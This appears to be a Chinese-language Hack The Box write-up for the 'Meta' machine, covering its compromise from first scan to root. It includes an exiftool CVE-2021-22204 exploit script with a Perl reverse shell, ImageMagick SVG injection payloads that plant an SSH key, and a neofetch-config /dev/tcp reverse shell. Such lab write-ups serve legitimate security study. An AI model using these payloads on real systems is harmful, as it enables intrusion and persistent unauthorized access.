 [https://app.hackthebox.com/machines/429](https://app.hackthebox.com/machines/429)

nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203272349104.png)

将`10.10.11.140    artcorp.htb`添加到`/etc/hosts`中

---

```bash
$ ./gobuster vhost -u http://artcorp.htb/ -w /mnt/hgfs/Exploits/subdomains-top1million-110000.txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://artcorp.htb/
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /mnt/hgfs/Exploits/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/27 23:53:31 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
                                                  
===============================================================
2022/03/27 23:55:04 Finished
===============================================================
```

将`10.10.11.140    dev01.artcorp.htb`添加到`/etc/hosts`中

---

有个文件上传点[http://dev01.artcorp.htb/metaview/index.php](http://dev01.artcorp.htb/metaview/index.php)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203280004795.png)

上传png文件后,返回文件的ext信息

```
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 254
Image Height                    : 255
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8 8
Software                        : gnome-screenshot
```

推测这里可能存在`imagemagick`的漏洞[ImageMagick 命令执行分析](https://wooyun.js.org/drops/CVE-2016-3714%20-%20ImageMagick%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%88%86%E6%9E%90.html)

但是试了一下貌似不对...

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203280029598.png)

在生成imagemagick的利用payload时,发现exiftool的输出结果与网页回显的结果类似,推测其为exiftool

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203280032420.png)

[CVE-2021-22204-exiftool](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

[convisolabs/CVE-2021-22204-exiftool](https://github.com/convisolabs/CVE-2021-22204-exiftool)

---

```python
#!/bin/env python3

import base64
import subprocess

ip = '10.10.16.22'
port = '9090'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"


payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )

payload = payload + b"'))};\")"


payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()


subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg']) 
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203280039450.png)

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /etc/passwd | grep sh
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
```

`linpeas.sh`没有得到当前权限下的有效信息,传个`pspy64`监控下进程

```
2022/03/27 12:53:06 CMD: UID=0    PID=1      | /sbin/init 
2022/03/27 12:54:01 CMD: UID=0    PID=17947  | /usr/sbin/CRON -f 
2022/03/27 12:54:01 CMD: UID=0    PID=17946  | /usr/sbin/cron -f 
2022/03/27 12:54:01 CMD: UID=0    PID=17945  | /usr/sbin/CRON -f 
2022/03/27 12:54:01 CMD: UID=0    PID=17944  | /usr/sbin/CRON -f 
2022/03/27 12:54:01 CMD: UID=0    PID=17943  | /usr/sbin/cron -f 
2022/03/27 12:54:01 CMD: UID=0    PID=17949  | /usr/sbin/CRON -f 
2022/03/27 12:54:01 CMD: UID=0    PID=17948  | /usr/sbin/CRON -f 
2022/03/27 12:54:01 CMD: UID=1000 PID=17952  | /usr/local/bin/mogrify -format png *.* 
2022/03/27 12:54:01 CMD: UID=1000 PID=17951  | /bin/bash /usr/local/bin/convert_images.sh 
2022/03/27 12:54:01 CMD: UID=1000 PID=17950  | /bin/sh -c /usr/local/bin/convert_images.sh 
2022/03/27 12:54:01 CMD: UID=0    PID=17957  | rm /tmp/systemd-private-44572498d12c46d58d79d44419a7b8db-apache2.service-288m5B /tmp/systemd-private-44572498d12c46d58d79d44419a7b8db-systemd-timesyncd.service-uK7uJf /tmp/vmware-root_473-2092907038 
2022/03/27 12:54:01 CMD: UID=0    PID=17956  | cp -rp /root/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2022/03/27 12:54:01 CMD: UID=0    PID=17955  | /bin/sh -c rm /var/www/dev01.artcorp.htb/convert_images/* 
2022/03/27 12:54:01 CMD: UID=0    PID=17954  | /bin/sh -c rm /var/www/dev01.artcorp.htb/convert_images/* 
2022/03/27 12:54:01 CMD: UID=0    PID=17953  | /bin/sh -c rm /tmp/* 
2022/03/27 12:54:01 CMD: UID=0    PID=17959  | /bin/sh -c rm /var/www/dev01.artcorp.htb/metaview/uploads/* 
2022/03/27 12:54:01 CMD: UID=1000 PID=17958  | pkill mogrify 
```

`/usr/local/bin/convert_images.sh`

```bash
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

[https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

```
<image authenticate='ff" `echo $(id)> /dev/shm/out`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

`cp poc.svg /var/www/dev01.artcorp.htb/convert_images/`即可

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281348546.png)

```
<image authenticate='ff" `mkdir -p /home/thomas/.ssh;echo ssh-rsa AAAABxxx97s= kali@kali > /home/thomas/.ssh/authorized_keys;echo $(whoami)> /dev/shm/out`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281352446.png)

---

```
[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281409680.png)

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

[https://gtfobins.github.io/gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/)

但不能直接利用

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281415726.png)

[https://github.com/dylanaraps/neofetch/wiki/Customizing-Info](https://github.com/dylanaraps/neofetch/wiki/Customizing-Info)

修改`.config/neofetch/config.conf`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281421051.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281422124.png)

`prin "$(id)"`然后`export XDG_CONFIG_HOME=/home/thomas/.config/`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281427096.png)

`prin "$(sh -i >& /dev/tcp/10.10.16.22/9001 0>&1)"`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203281456095.png)